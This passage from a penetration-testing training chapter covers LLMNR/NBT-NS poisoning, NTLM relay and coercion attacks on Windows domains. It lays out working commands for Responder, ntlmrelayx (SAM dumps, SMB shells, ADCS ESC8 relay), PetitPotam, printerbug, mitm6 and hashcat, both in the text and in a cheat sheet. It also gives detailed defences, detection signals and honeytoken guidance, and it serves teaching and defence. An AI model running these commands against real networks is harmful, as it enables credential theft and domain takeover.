| **PetitPotam** | MS-EFSRPC `EfsRpcOpenFileRaw` etc. | `PetitPotam.py` | DCs (famously unauth in original) |
| **DFSCoerce** | MS-DFSNM | `dfscoerce.py` | DCs (DFS service) |
| **ShadowCoerce** | MS-FSRVP | `shadowcoerce.py` | file servers |

The canonical chain is **coerce a DC → relay its machine authentication to ADCS
(ESC8) or LDAP → escalate to domain compromise**:



Example — coerce a DC's machine account and relay to ADCS web enrollment:

```bash
# 1) relay listener targeting the CA's web enrollment (ESC8)
ntlmrelayx.py -t http://ca.corp.local/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
# 2) force the DC to authenticate to us
python3 PetitPotam.py -u alice -p Autumn2023! attacker_ip dc.corp.local
```

`ntlmrelayx --adcs` requests a certificate for the coerced account; with a DC's cert you
can obtain a TGT and ultimately DCSync. The full escalation lives in the Active
Directory notebook; the network-attack point is that **coercion removes the "wait for a
mistake" limitation of passive poisoning** and directly feeds the relay engine.

**Defence preview:** patch the coercion methods where patches exist (PetitPotam
mitigations, disable the Print Spooler on servers/DCs), and — decisively — enforce the
Part 13 relay defences (SMB signing, LDAP channel binding/signing, EPA on ADCS), which
neutralise coercion's payoff even when the trigger still fires.

A practical note on tool coexistence for coercion+relay: as with Responder, when you
run a coercion tool you want ntlmrelayx (not Responder's own servers) catching the
inbound authentication, so keep Responder's SMB/HTTP off and let ntlmrelayx bind those
ports. Coercion tools authenticate *to you*, so your relay listener must already be up
before you fire the trigger.

## Part 12: A Mental Model of Capture vs Relay vs Coercion

Three related but distinct ideas run through this chapter; keep them straight:

- **Capture (poison):** answer a victim's name query so it authenticates to you; you
  *collect* a NetNTLM hash to crack later. Passive, opportunistic.
- **Relay:** forward a captured authentication to a *third* host in real time so you
  *become* the victim there. No cracking needed; requires the target to not enforce
  signing/binding.
- **Coercion:** actively *trigger* a chosen machine to authenticate now, feeding either
  capture or (usually) relay. Targeted, reliable.



Choosing between them is a decision about what the environment gives you: crack when
passwords are weak, relay when signing is off, coerce when you need a specific
(machine) account and can't wait. A mature defence has to close all three, which is why
the mitigations in Part 13 are a *set*, not a single toggle.

## Part 13: Detection & Defense Angle

This attack is old, extremely common, and fully preventable. The mitigations are
specific and high-impact.

- **Disable LLMNR** via Group Policy: *Computer Configuration → Administrative
  Templates → Network → DNS Client → "Turn off multicast name resolution" = Enabled*.
  This removes the primary poisoning vector.
- **Disable NBT-NS** on every interface (DHCP option 001 / netsh / registry
  `NetbiosOptions=2`), and disable mDNS where not needed. LLMNR+NBT-NS+mDNS off = no
  broadcast name resolution to poison.
- **Require SMB signing on all hosts** (not just DCs): GPO *Microsoft network
  server/client: Digitally sign communications (always) = Enabled*. This **kills SMB
  relay** — the relayed session fails integrity validation.
- **Disable NTLMv1** (`LmCompatibilityLevel = 5`, "Send NTLMv2 response only, refuse
  LM & NTLM") so the catastrophic v1→NT-hash path is closed, and work toward
  restricting/auditing NTLM entirely (Kerberos-only where possible).
- **Manage IPv6:** enable RA Guard/DHCPv6 Guard or disable IPv6 if unused, to close the
  `mitm6` path (Chapter 5).
- **Fix WPAD:** create a legitimate `wpad` DNS record (sinkhole) and disable
  "automatically detect settings" so clients never broadcast for it.
- **Channel binding / EPA** on LDAP and web endpoints (and LDAP signing) to defeat
  relay to LDAP/ADCS (ESC8).
- **Detection:** LLMNR/NBT-NS *responses* from an unexpected host, or a workstation
  answering name queries it shouldn't; a spike of NTLM authentications to a single new
  host; and — elegantly — **honeytokens**: a fake credential or a scheduled lookup of a
  non-existent host that, if it ever authenticates anywhere, means someone is poisoning.
  Tools/rules exist for Zeek/Suricata and for Windows event monitoring (NTLM auth
  events, 4624/4625 patterns). Microsoft's own guidance and tools (e.g. detecting
  Responder via crafted LLMNR queries) help hunt for active poisoners.

Concrete Windows/​network signals to alert on:

- **Windows Security 4624/4625** (logon success/failure) with **NTLM** package and
  **NtlmV1** where you expect none; a burst of NTLM auths to one new host.
- **Event 5140/5145** (share access) from unexpected sources during a relay.
- **Sysmon 3** (network connect) from `lsass`/service accounts to a workstation IP.
- **Name-resolution answers** on UDP 5355/137/5353 from a host that is not a legitimate
  responder — the poisoner itself.
- **ADCS**: certificate requests for machine accounts (DC$) from odd sources (ESC8
  relay).



For prioritisation, defenders can treat the controls as tiers by effort vs impact:

| Control | Stops | Effort | Priority |
|---------|-------|--------|----------|
| Disable LLMNR (GPO) | capture (primary vector) | low | do first |
| Disable NBT-NS | capture (legacy vector) | low-med | do first |
| Require SMB signing | SMB relay + coercion→SMB | med | do first |
| Disable NTLMv1 | v1→NT-hash catastrophe | low | do first |
| LDAP signing + channel binding | relay to LDAP | med | high |
| EPA on ADCS web enroll | ESC8 relay | med | high |
| RA/DHCPv6 Guard or disable IPv6 | mitm6 path | med | high |
| Spooler off on servers/DCs | PrinterBug coercion | low | high |
| Honeytoken lookups/creds | detection of active poisoners | low | ongoing |

The mnemonic: **disable LLMNR/NBT-NS to stop the capture, require SMB signing to stop
the relay, and kill NTLMv1 to stop the worst-case** — three GPO settings that remove
most of this chapter's power.

### 13.1 Honeytokens — catching the poisoner cheaply

The most elegant detection costs almost nothing: plant a **honey lookup** — a scheduled
task on a few hosts that resolves a non-existent name (e.g. `\\honey-share`). On a
healthy network that name simply NXDOMAINs and nothing happens. If a poisoner is
present, it *answers* — and if the honeytask is configured to then attempt
authentication with a **honey credential** (one that is valid nowhere and monitored
everywhere), any use of that credential anywhere is a high-fidelity alarm that someone
captured and is trying it. Similarly, an SMB honeypot that logs every NTLM auth catches
relays aimed at it. These require no new products, just a fake name and a watched fake
credential.

## Part 14: Common Pitfalls

- **Poisoning without analyze mode first.** `-A` tells you what's safe to poison and
  what the segment looks like; skipping it risks disrupting real resolution.
- **Running Responder's SMB/HTTP and ntlmrelayx at once.** They fight for ports —
  disable Responder's servers (`SMB=Off`, `HTTP=Off`) when relaying.
- **Relaying to signing-required hosts.** It silently fails; enumerate non-signing
  targets first (`--gen-relay-list`).
- **Relaying auth back to the originating host.** Reflective relay is blocked by modern
  patches (MS08-068 and successors); relay to a *different* host.
- **Cracking on the target.** Never run hashcat on a client asset; captured hashes go
  to your own cracking rig. Cracking is CPU/GPU-heavy and out of place on an engagement
  host.
- **Confusing NetNTLM with the NT hash.** NetNTLMv2 is not pass-the-hash material; you
  crack it or relay it. Only NetNTLMv1-with-static-challenge → NT hash.
- **Ignoring IPv6.** If LLMNR is disabled but IPv6 is unmanaged, `mitm6` still opens the
  door — address both.
- **Leaving it running unattended on production.** Responder answers broadly; on a
  sensitive segment it can misdirect real traffic. Scope, time-box, and log.
- **Weak wordlist for v2.** NetNTLMv2 cracking is only as good as your wordlist/rules;
  a strong password simply won't fall — pivot to relay.

## Final Revision / Summary

- Windows resolves names in order: hosts/cache → **DNS** → **LLMNR** (UDP 5355) →
  **NBT-NS** (UDP 137) → **mDNS** (UDP 5353). The fallbacks are broadcast and
  unauthenticated — anyone can answer.
- **Responder** poisons those queries and runs rogue servers that capture the victim's
  **NTLM** authentication as a **NetNTLMv1/v2** hash.
- **Start with `-A` analyze mode**; poison with `-I eth0 -wd`; hashes log to
  `/usr/share/responder/logs/`.
- **NetNTLMv2** (hashcat 5600) cracks by wordlist (strength = password strength);
  **NetNTLMv1** (5500), with a static challenge, converts to the **NT hash** via
  rainbow tables/crack.sh.
- If you can't crack, **relay** with **ntlmrelayx** to a host that does **not require
  SMB signing** (`--gen-relay-list` to find them) for command exec/SAM dump; relay to
  **LDAP/ADCS (ESC8)** for domain escalation.
- **mitm6 + ntlmrelayx** takes over IPv6 DNS (DHCPv6) for a reliable, quiet domain
  foothold; **WPAD** coercion widens capture to web auth.
- Defence: **disable LLMNR/NBT-NS/mDNS, require SMB signing everywhere, disable
  NTLMv1, manage/disable IPv6, fix WPAD, enforce LDAP signing/channel binding**, plus
  detection via anomalous name answers/NTLM auth and honeytokens.

## Cheat Sheet / Quick Reference

**Responder**

```bash
sudo responder -I eth0 -A          # analyze only (look first)
sudo responder -I eth0 -wd         # poison + WPAD + domain suffix
# hashes -> /usr/share/responder/logs/*.txt
```

**Crack**

```bash
hashcat -m 5600 hash.txt rockyou.txt -r best64.rule    # NetNTLMv2
hashcat -m 5500 hash.txt rockyou.txt                    # NetNTLMv1
# NetNTLMv1 + static challenge -> crack.sh -> NT hash (pass-the-hash)
```

**Find relay targets + relay**

```bash
nxc smb 10.0.0.0/24 --gen-relay-list targets.txt        # signing NOT required
# Responder.conf: SMB=Off, HTTP=Off ; then:
sudo responder -I eth0                                    # poison only
ntlmrelayx.py -tf targets.txt -smb2support --dump-sam
ntlmrelayx.py -tf targets.txt -smb2support -i            # interactive SMB shell
ntlmrelayx.py -t ldaps://dc.corp.local -smb2support      # relay to LDAP
```

**IPv6 takeover**

```bash
sudo mitm6 -d corp.local
ntlmrelayx.py -6 -wh wpad.corp.local -t ldaps://dc.corp.local -smb2support
```

**Coercion (advanced)**

```bash
python3 printerbug.py CORP/alice:'pw'@target attacker_ip     # MS-RPRN
python3 PetitPotam.py -u alice -p pw attacker_ip dc.corp.local  # MS-EFSRPC
ntlmrelayx.py -t http://ca/certsrv/certfnsh.asp --adcs --template DomainController
```

**Defences (GPO / config)**

```text
LLMNR off   : "Turn off multicast name resolution" = Enabled
NBT-NS off  : NetbiosOptions=2 (DHCP opt 001 / netsh / registry)
SMB signing : "Digitally sign communications (always)" = Enabled (client+server)
NTLMv1 off  : LmCompatibilityLevel = 5
IPv6        : RA Guard/DHCPv6 Guard or disable if unused
WPAD        : create real wpad DNS record; disable auto-detect settings
```

## Practice Labs & Resources

- **Your own lab AD domain (the right place):** a DC, a member server with SMB signing
  off, and a Windows client. Run the Part-10 chain: analyze → poison → capture →
  hashcat → ntlmrelayx. Then apply each Part-11 GPO and watch capture, then relay,
  then the v1 path each stop working.
- **TryHackMe** — *Responder*-focused rooms, *Holo*, *Attacktive Directory* (LLMNR
  poisoning + relay + AD foothold), and the *Network Services* rooms for SMB context.
- **HackTheBox** — Windows/AD boxes and ProLabs (e.g. Dante/Offshore-style internal
  labs) where Responder + relay is a legitimate in-scope foothold.
- **coercer / PetitPotam / printerbug repos** — practise the Part-11 coercion techniques
  against a lab DC/server (with Spooler on and signing off), then relay to ADCS in a lab
  CA to see the ESC8 chain end to end.
- **Impacket examples** — read `ntlmrelayx.py`, `smbrelayx.py` and the Impacket docs to
  understand relay targets, modes, and the LDAP/ADCS options.
- **PayloadsAllTheThings (NTLM / relay pages) & the Impacket wiki** — reference for
  relay targets, coercion methods, and the exact command syntax when you meet a new
  variant in the field.
- **The Active Directory notebook (this series)** — for what comes *after* the
  credential/relay: authenticated enumeration (BloodHound), Kerberoasting, and the
  ADCS/ESC relay paths in full.
- **Detection engineering practice:** deploy a honey-lookup + honey-credential (Part
  13.1) in your lab, run your own Responder, and confirm the honeytoken fires — the
  single most convincing way to prove the detection works before relying on it in
  production.
- **Defensive practice:** deploy the LLMNR/SMB-signing GPOs in a lab and use a
  honeytoken (a scheduled lookup of a fake host) to detect your own Responder — the
  most convincing way to internalise the fix.

Tie the internal-network picture together before moving on: Chapters 5–6 needed a MITM
position and produced cleartext or redirection; this chapter needed no MITM at all and
produced *authentication* — hashes to crack and, better, live authentication to relay
or coerce. That is why Responder + ntlmrelayx (and mitm6) is the reliable opener on
Windows networks: it converts mere presence into credentials and access, and it is
stopped not by encryption alone but by turning off legacy name resolution and enforcing
signing. Carry that distinction into the AD notebook, where the *authenticated* phase
begins.

The next chapter changes gears from capturing credentials on a segment to *moving
through* the network once you have a foothold: pivoting and tunneling with chisel,
sshuttle, ligolo-ng and proxychains to reach segments your attack box cannot touch
directly.
